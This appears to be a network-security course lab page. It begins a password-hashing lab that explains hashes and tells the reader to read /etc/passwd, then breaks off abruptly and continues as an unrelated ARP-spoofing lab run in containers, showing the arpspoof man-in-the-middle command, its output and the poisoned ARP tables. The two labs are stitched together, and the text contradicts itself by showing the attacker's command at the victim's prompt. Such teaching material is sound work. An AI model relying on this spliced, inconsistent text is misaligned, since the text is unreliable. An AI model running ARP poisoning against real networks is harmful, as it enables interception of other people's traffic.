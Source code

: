 ## Password Hashing and Cracking
Password is an important user authentication mechanism. Passwords are stored in the database as
hashes rather than plain text. If users’ passwords are stored in a database as plain text, malicious
hackers can get immediate access to them if they break into the system. In this lab, you will
understand what password hash is and how password hash be cracked.

## Password Hashing
A hash function turns any amount of data into a fixed-length “fingerprint” that cannot be reversed.  
The fixed-length “fingerprint” is called a hash value or hash code. 
The unique feature of hash functions is that any change in input data will result in a completely different hash code. Cryptographic hash functions are used to implement password hashing.There are multiplecryptographic hash functions, such as MD5, SHA-2.  

For example, the following are the MD5 hash codes of different strings.  
MD5(“hello”) = “5D41402ABC4B2A76B9719D911017C592”  
MD5(“hollo”) = “181D1F65FC3EDFC75945B24F22CD7E22”  
MD5(“helloo”) = “B373870B9139BBADE83396A49B1AFC9A”  

## Task1: Exploring Linux Password Hashes

The users’ information and passwords in Linux and UNIX operating system are stored in files.
/etc/passwd stores user accounts, and the /etc/shadow stores the information about user accounts
and the encrypted password hashes. /etc/shadow has more restrictive permissions than the
/etc/passwd file. On most Linux systems, only the root account has the ability to read the
contents of the shadow file.  

**Step 1: View the /etc/passwd file. Open a terminal and type the following command**  
*cat /etc/passwd*


![Add ArpSpoof]({{ page.root }}/fig/arpspoof/add-arpspoof.png)

Next, click the *View* link to go to the application-specific page and start the application containers:

![Start Containers]({{ page.root }}/fig/arpspoof/start-containers.png)

> ## Container Launch Errors
>
> If a container fails to start, you will see a flashing warning icon next to the container's name. Take a look at the logs to 
> determine the cause of failure and try deleting the application and restarting.
{: .callout}

Once all the containers have started, launch each container's web interface in a separate browser tab by clicking the icon 
next to the container's name:

![Launch Containers]({{ page.root }}/fig/arpspoof/launch-containers.png)

We will start with the hacker. On the hacker browser tab, click on **Hacker.ipynb** to open a Jupyter notebook with instructions on 
conducting the attack:

![Open Hacker Notebook]({{ page.root }}/fig/arpspoof/hacker-notebook.png)

The next step is to find the IP address of the server. On the server browser tab, launch a new terminal window from the Jupyter 
notebook page:

![Server Terminal]({{ page.root }}/fig/arpspoof/launch-server-terminal.png)

To find the IP address of the server, use the *ifconfig* command at the server terminal:

~~~
jovyan@arpspoofserver:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.6 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Make a note of the *inet* address returned on your terminal. Next, we will determine the IP address of the victim.

Launch a terminal in the victim browser window:

![Open Victim Terminal]({{ page.root }}/fig/arpspoof/victim-terminal.png)

Find the IP address of the victim using *ifconfig* at the victim terminal:

~~~
victim@arpspoofvictim:~$ ifconfig
~~~
{: .language-bash}

~~~
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1376
	inet 10.32.0.7 netmask 255.240.0.0 broadcast 10.47.255.255
	...
~~~
{: .output}

Now, inspect the ARP table on the victim (it only has one entry; the gateway):

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
~~~
{: .output}

Next ping the server:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.171 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.096 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.072 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.085 ms
...
~~~
{: .output}

Recheck the ARP table on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		fa:65:b8:f5:81:46	C			eth0
~~~
{: .output}

It now has an entry for the server's IP. Now check the route to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.6	0.003ms		0.002ms		0.001ms
~~~
{: .output}

Now we will conduct the ARP poisoning attack from the hacker. Open a terminal window on the hacker:

![Open Hacker Terminal]({{ page.root }}/fig/arpspoof/launch-hacker-terminal.png)

Run the *arpspoof* command on the hacker terminal with the victim and server IP addresses:

~~~
victim@arpspoofvictim:~$ sudo arpspoof -t 10.32.0.7 10.32.0.6
~~~
{: .language-bash}

~~~
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
da:ee:b1:44:c2:78 7a:a8:53:6d:57:65 0806 42: arp reply 10.32.0.6 is-at da:ee:b1:44:c2:78
~~~
{: .output}

> ## Order of arguments
> Note the order of arguments to the *arpspoof* command; the victim IP comes first followed by 
> the server IP address.
{: .callout}

Now ping the server again from the victim. You may need to wait a bit to see the output below:

~~~
victim@arpspoofvictim:~$ ping 10.32.0.6
~~~
{: .language-bash}

~~~
PING 10.32.0.6 (10.32.0.6): 56 data bytes
64 bytes from 10.32.0.6: icmp_seq=0 ttl=64 time=0.121 ms
64 bytes from 10.32.0.6: icmp_seq=1 ttl=64 time=0.082 ms
64 bytes from 10.32.0.6: icmp_seq=2 ttl=64 time=0.071 ms
64 bytes from 10.32.0.6: icmp_seq=3 ttl=64 time=0.096 ms
...
~~~
{: .output}

Let's recheck the ARP tables on the victim:

~~~
victim@arpspoofvictim:~$ arp -n
~~~
{: .language-bash}

~~~
Address		HWtype		HWaddress		Flags Mask		Iface
10.32.0.1	ether		4a:6a:33:20:03:02	C			eth0
10.32.0.6	ether		da:ee:b1:44:c2:78	C			eth0
10.32.0.8	ether		da:ee:b1:44:c2:78	C			eth0
~~~
{: .output}

> ## What is wrong with this ARP table?
> Notice that the server's IP address entry now has a different MAC (HWaddress) that before.
> Also, there are two IP addresses, both with the same MAC address. 10.32.0.8 is the IP address 
> of the hacker. Astute observers will also note that this MAC address was the response the *arpspoof*
> command was returning.
{: .callout}

Now check the route from the victim to the server:

~~~
victim@arpspoofvictim:~$ traceroute 10.32.0.6
~~~
{: .language-bash}

~~~
traceroute to 10.32.0.6 (10.32.0.6), 64 hops max
1	10.32.0.8	0.003ms		0.002ms		0.002ms
2	10.32.0.6	0.002ms		0.002ms		0.002ms
~~~
{: .output}

> ## What does traceroute tell us?
> There are now two hops that each message from the victim to the server is taking; first to the hacker 
> and then to the server.
{: .callout}

{% include links.md %}
